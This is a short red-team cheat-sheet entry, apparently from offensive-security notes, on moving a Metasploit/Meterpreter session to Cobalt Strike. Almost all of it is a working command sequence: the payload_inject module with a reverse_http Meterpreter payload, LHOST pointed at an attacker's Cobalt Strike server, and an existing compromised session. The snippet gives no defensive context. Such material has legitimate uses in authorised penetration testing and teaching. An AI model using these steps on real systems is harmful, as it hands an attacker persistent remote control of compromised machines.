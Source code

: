 Cobalt Strike

Move a meterpreter / metasploit session to Cobalt

```
in Cobalt
windows/beacon_http/reverse_http

in Metasploit
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set LHOST [IP of compromised system or cobalt IP]
set LPORT 80
set session 1
set DisablePayloadHandler true
exploit (-j)
```



